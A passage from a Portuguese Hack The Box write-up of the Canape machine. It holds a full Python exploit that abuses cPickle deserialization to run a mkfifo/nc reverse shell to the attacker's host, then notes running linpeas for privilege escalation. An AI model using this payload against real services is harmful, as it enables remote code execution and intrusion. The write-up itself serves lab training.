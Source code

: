 ```

p_id = md5(char+quote).hexdigest()
requests.post("http://127.0.0.1:5000/submit", data={'character': char, 'quote': quote})
requests.post("http://127.0.0.1:5000/check", data={'id': p_id})
```

Executamos e ganhamos uma shell na nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a12.png)

Agora mudamos o endereço para ser da máquina Canape

## Ganhando Reverse Shell na Canape

exploit.py
```
import os
import cPickle
import requests
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
# print sc

char,quote = sc.split("!")

p_id = md5(char+quote).hexdigest()
requests.post("http://10.10.10.70/submit", data={'character': char, 'quote': quote})
requests.post("http://10.10.10.70/check", data={'id': p_id})
```

Show! Temos um shell de `www-data`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a11.png)

# Escalação de privilégio www-data -> Homer

Rodamos o linpeas para procurar por pontos de escalação de privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_linpeas0.png)

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_linpeas.png)

Rodamos na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_linpeas1.png)
